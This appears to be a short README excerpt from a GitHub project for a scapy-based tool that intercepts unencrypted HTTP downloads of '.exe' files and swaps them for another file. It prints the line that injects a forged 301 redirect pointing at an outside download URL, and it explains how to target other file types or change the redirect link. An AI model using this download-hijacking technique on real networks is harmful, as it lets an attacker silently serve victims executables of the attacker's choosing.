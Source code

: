 * <b>It doens't working in modern websites, because they using 443 port and reject other connections, 80 port not except</b>
* So if you want to intercept other files, not only ".exe" , you can change ".exe" -> ".jpg"
* Rederection works in this line:</br>
<code>modified_packet = set_load(scapy_packet,"HTTP/1.1 301 Moved Permanently\nLocation: https://browser.yandex.ru/download?banerid=6302000000&os=win\n\n") </code>
* If you want to use other redirection, just change the link after "Location: "